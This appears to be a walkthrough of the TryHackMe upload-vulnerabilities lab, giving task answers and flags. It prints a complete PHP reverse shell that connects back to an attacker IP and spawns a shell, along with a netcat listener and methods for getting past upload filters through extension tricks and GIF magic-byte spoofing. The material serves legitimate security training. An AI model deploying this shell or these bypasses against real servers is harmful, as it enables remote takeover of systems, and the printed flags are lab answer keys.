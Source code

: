 # Upload Vulnerabilities

### Overwriting Existing Files
- What is the name of the image file which can be overwritten?
Navigate to `overwrite.uploadvulns.thm`. Open the page source code: <br />
![image](https://github.com/user-attachments/assets/442b3dce-5883-472f-ab13-cfe70ec3bf9e)<br />
`mountains.jpg`
- Overwrite the image. What is the flag you receive? <br />
Create a file named "mountains.jpg" and upload it to the web server to get the flag: `THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}`

### Remote Code Execution
- Run a Gobuster scan on the website using the syntax from the screenshot above. What directory looks like it might be used for uploads? (N.B. This is a good habit to get into, and will serve you well in the upcoming tasks...) <br />
Navigate to `shell.uploadvulns.thm`. To run gobuster, use the following command: `gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt` <br />
![image](https://github.com/user-attachments/assets/ed3fa1c3-56a5-4258-807d-436ca32c700b)<br />
`/resources`
- Get either a web shell or a reverse shell on the machine. What's the flag in the /var/www/ directory of the server? <br />
Go to Revshell.com and copy to get a PHP reverse shell, I will use the one from PentestMonkey: <br />
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.11.85.53';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
<br />
Upload it on the web server, and open a netcat listener on you attack box: `nc -lnvp 4444`. Then go to `http://shell.uploadvulns.thm/resources` and select the uploaded php reverse shell.<br />

![image](https://github.com/user-attachments/assets/4074a7d2-010b-4856-99da-b02f0d6f88a8)

`THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}`

### Filtering
- What is the traditionally predominant server-side scripting language? `PHP`
- When validating by file extension, what would you call a list of accepted extensions (whereby the server rejects any extension not in the list)? `Whitelist`
- [Research] What MIME type would you expect to see when uploading a CSV file? `text/csv`

### Bypassing Client-Side Filtering
- What is the flag in /var/www/? <br />
If we try to upload the same php shell as before, we get an error: <br />
![image](https://github.com/user-attachments/assets/1c023e3c-a47e-442e-828e-3df653b9544f)
Apparently the web server only allows .png files. But this is just a front-end filter, we can try to rename `revshell.php` to `revshell.php.png`, intercept the request on burpsuite and change the file name again: <br />
![image](https://github.com/user-attachments/assets/a6d2799a-687e-42f0-8479-26c73c15e6b4)
Now again create a reverse shell like before and get the flag at /var/www/flag.txt: `THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}`

### Bypassing Server-Side Filtering: File Extensions
- What is the flag in /var/www/? <br />
Navigate to annex.uploadvulns.thm. The filter is built to only accept .png files. However after some trial and error, I found out that it also accepts .php2 files, if the name contains .png. Therefore I renamed the php reverse shell as `revshell.png.php2` and the upload was successful: <br />
![image](https://github.com/user-attachments/assets/ce6a7a1e-c344-41fd-bc85-976da202115e)
Again, spawn a reverse shell and the the flag: `THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}`

### Bypassing Server-Side Filtering: Magic Numbers
- Grab the flag from /var/www/ <br />
Head to `magic.uploadvulns.thm`. To successfully upload our `revshell.php`, we need to modify the magic number of the file. Search for the [file signature](https://en.wikipedia.org/wiki/List_of_file_signatures) for gifs, which is GIF87a. Simply add this string at the beginning of the file. <br />
To check if the hexadecimal value is correct, you can check it by opening the file using `hexeditor`. Now, even the linux `file` command thinks it's a gif: <br />
![image](https://github.com/user-attachments/assets/9b420dfd-6507-49c3-8ac2-24cf985b967a)
beautiful. Now we need a way to find where the files are uploaded. A gobuster search finds us the "graphisc" directory. However we cannot access it. My first trivial try was to try to access the `http://magic.uploadvulns.thm/graphics/revshell.php`  and it worked, lol. If you know any method to find the locations of uploaded files please feel free to let me know, I want to learn! <br />
By accessing the file, the web server executed it and we spawned a reverse shell. The flag is: `THM{MWY5ZGU4NzE0ZDlhNjE1NGM4ZThjZDJh}`

### Challenge
- Hack the machine and grab the flag from /var/www/
